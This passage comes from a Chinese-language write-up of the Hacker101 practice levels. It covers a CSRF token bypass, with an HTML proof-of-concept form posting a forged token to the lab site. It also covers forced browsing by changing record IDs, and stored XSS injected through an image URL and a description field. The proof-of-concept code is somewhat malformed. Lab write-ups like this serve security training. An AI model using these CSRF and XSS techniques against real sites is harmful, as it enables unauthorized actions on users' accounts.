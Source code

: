 想过，用 xss 获取 token，但由于引发 xss 的前提是需要提前知道 csrf token 所以这种方法行不通。

又过了两天，拿起再看看，试试重放，发现成功了。csrf 不是使用一次就失效，可以多次使用。首先获取到提交页面获取 token，然后在利用代码中使用。后来，看别人的解答。才知道只要给任意 32 位的 token 就能过，只验证了 token 的长度，没有验证 token 的内容。回过头来看重放的思路不对，作者的意图是让我们猜测 csrf token 的结构，然后构造 token 进行绕过。以下应当才是正确的思路。

另外 token 是用户名的 MD5 值，可根据用户名构造 token。

```
<html>

<head>
<title>Test CSRF </title>
</head>
<body  onload="getCSRFToekn()">
<iframe src="https://levels-a.hacker101.com/levels/1/" ></iframe>
<form method='POST' action='https://levels-a.hacker101.com/levels/1/post' target="csrf-frame" onload="getCSRFToekn()">
	<input type='hidden' javascript:alert(1)'>
    <input type='hidden' name='csrf' value='56d27afecc9f901080e76f45c12747bd'>
	<input type='submit'>
</form>

<script>document.getElementById("csrf-form").submit()</script>

</body>
</html>
```

### [](#Forced-Browsing "Forced Browsing")Forced Browsing

查看自己每次测试的详情，更改 id 能够访问别人的测试记录。

自己的记录

![](https://delikely.github.io/2018/04/14/Hacker101-writeup/1517836758756.png)

别人的记录 ![](https://delikely.github.io/2018/04/14/Hacker101-writeup/1517837065692.png)

存储型 XSS + 强制浏览![](https://delikely.github.io/2018/04/14/Hacker101-writeup/Forced%20Browsing%202.gif)

[](#level-2 "level 2")level 2
-----------------------------

![](https://delikely.github.io/2018/04/14/Hacker101-writeup/1517843790308.png)

### [](#Stored-XSS "Stored XSS")Stored XSS

测试了一下 Nickname，发现 <>’” 等符号被转译，于是测试图片地址。pic 的地址必须以. png .jpg 结尾，所以代码插在地址中间部分。

![](https://delikely.github.io/2018/04/14/Hacker101-writeup/1517841300615.png)

另外 description 也存在存储型 XSS。
